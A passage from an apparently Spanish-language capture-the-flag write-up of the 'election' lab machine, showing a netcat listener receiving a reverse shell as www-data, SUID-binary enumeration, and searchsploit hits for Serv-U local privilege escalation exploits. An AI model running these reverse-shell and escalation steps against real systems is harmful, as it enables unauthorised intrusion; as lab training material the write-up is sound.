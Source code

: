 Al mandar la solicitud veremos que llegó una conexión:

```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [172.26.70.49] from (UNKNOWN) [172.26.65.86] 57552
bash: cannot set terminal process group (747): Inappropriate ioctl for device
bash: no job control in this shell
www-data@election:/var/www/html$ whoami
whoami
www-data
```

Bien, hemos ganado acceso al sistema, vamos a hacer un tratamiento de la tty y seguimos.


## Escalada de privilegios

Con nuestra terminal lista, vamos a buscar posibles vectores para escalar privilegios:

```
www-data@election:/var/www/html$ id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@election:/var/www/html$ sudo -l
[sudo] password for www-data: 
```

Vamos a enumerar binarios **SUID** que quizás existan:
```
www-data@election:/var/www/html$ find / -perm -4000 2>/dev/null
/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/bin/fusermount
```

Aparecen muchos, sin embargo, hay uno que normalmente nunca está y es el **Serv-U**, si buscamos esto por `searchsploit`:

```
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)      | linux/local/47009.c
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2)      | multiple/local/47173.sh
```
